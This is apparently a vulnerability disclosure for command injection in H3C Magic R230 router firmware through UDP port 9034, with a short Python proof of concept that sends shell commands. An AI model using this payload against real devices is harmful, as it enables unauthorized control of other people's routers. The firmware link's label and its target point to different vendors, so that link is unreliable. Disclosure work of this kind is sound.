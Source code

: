 #  H3C Magic R230 V100R002 was discovered to contain a  command injecting.

### Product Information

Product: H3C Magic R230 Firmware Version: V100R002 

Manufacturer's website information：https://www.h3c.com/cn/ 

Firmware download address ：[https://www.h3c.com/cn/d_202211/1719339_30005_0.htm](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

H3C Magic R230 V100R002's udpserver opens port 9034, allowing attackers to execute arbitrary commands.

![image-20240624103309000](./image-20240624103309000.png)

The input is not filtered

![image-20240624103333841](./image-20240624103333841.png)

### POC

```python

import socket

Ip="0.0.0.0" 
Port=9034

msg=b"cat & ls &"
server_address=(Ip,Port)

udp_socket=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.sendto(msg,server_address)

udp_socket.close()


```

![image-20240624103540102](./image-20240624103540102.png)
